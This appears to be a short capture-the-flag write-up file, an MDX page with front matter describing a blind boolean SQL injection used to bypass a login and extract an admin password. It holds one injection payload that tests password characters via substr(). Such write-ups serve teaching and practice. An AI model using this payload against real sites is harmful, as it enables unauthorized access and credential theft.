 ---


## src/content/writeups/example-ctf.mdx
```mdx
---
title: "CTF — SQLi Login Bypass"
date: 2025-08-20
summary: "Blind boolean SQLi to extract admin password via substring()."
platform: CTF
difficulty: Medium
tags: [web, sqli, blind]
---


### Payload core
```sql
' OR (SELECT substr(password,1,1) FROM users WHERE username='admin')='a'-- -